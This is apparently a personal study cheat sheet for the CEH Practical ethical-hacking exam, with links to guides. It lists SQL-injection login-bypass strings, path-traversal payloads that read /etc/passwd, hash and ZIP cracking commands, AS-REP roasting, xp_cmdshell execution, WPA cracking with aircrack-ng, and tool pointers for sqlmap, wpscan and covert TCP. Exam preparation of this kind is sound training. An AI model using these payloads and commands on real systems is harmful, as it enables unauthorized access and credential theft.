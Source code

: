 # Practical voorbereiding
https://github.com/CyberSecurityUP/Guide-CEH-Practical-Master

https://ceh-practical.cavementech.com/module-2.-footprinting-and-reconnaissance/1.-footprinting-through-search-engines

https://conflick0.github.io/CEH/

https://github.com/Aftab700/CEH_Notes?tab=readme-ov-file




#bypass login by sql injection
username:  ' OR '1'='1' --    
of   
' OR 1=1 --
admin'--
admin' #
admin'/*
' OR 1=1#
' OR 1=1/*

administrator'--
password: blank

#crack hashes
hashid [hash]
hashcat -m [hash_mode] -a 0 [hash_file] [wordlist]

#banner grabbing
nc -v [IP] 80
send >    GET / HTTP/1.1


#dns
dig website.com ANY

#hidden directories
Dir buster

#crack encrypted ZIP
zip2john file.zip > hash.txt
john --wordlist=wordlist.txt hash.txt

#Local file Inclusion 
detect vulnarability
http://example.com/?file=../../../../etc/passwd
of
http://example.com/show.asp?view=../../../../../Windows/system.ini
http://example.com/view.php?page=../../../../etc/passwd
of document=


#Detect ARP spoofing
ARPWatch


#AS_REP
impacket-GetNPUUsers -no-pass -usersfile users.txt -dc-ip 192.168.10.22 LABO.LOCAL
copy hash to txt > john

#sql client
impacket-mssqlclient user:psswd@10.11.12.1
EXEC xp_cmdshell 'powershell -command "(get-item \"c:\temp\test.txt\").length"'

#entropy
DIE.exe
or
Ent file1.elf
Ent file2.elf

#steno
steghide extract -sf file.jpg
Or
Openstego (windows)

#vulnerability web
wapiti
nikto -h
zaproxy


#SQL injection
console browser > document.cookie


#wireshark
frame contains "High_humidity"
protocol iot MQTT

#RAT
typical RAT ports
typical RAT ports. 5552, 1234, 1243, 31337, 5110, 6776, 4444

#wifi wpa
aircrack-ng -a2 -b MACBSSID -w /home/root/Desktop/password.txt WIFI.cap

#Malware entrypoint
PEExplorer
Objdump -f file.elf for linux


#metasploit
ssh_login
exploit_suggestionter

#nmap scripts
http-headers
smb2-security-mode
smb-os-discovery

#extra
How many machines are active > netdiscover
With machine has ftp > nmap
Find out phone number of webapplication > sqlmap
Bruteforce wordpress users password > wpscan
Decode .hex file > cryptool
Pcap > wireshark
Decoce the given text using given sectret > BCTextEncoder
Calculate SHA1 of a text > Hashcalc
Decrypt volume > Veracrypt
Crack the given hash > hashes.com
Find Secret in hidden Image/File > OpenStego/Snow
Find secret file in android > ADB
Send data to another machine(firewall blocked) > Use convert TCP

#openvas
docker run -d -p 443:443 --name openvas mikesplain/openvas



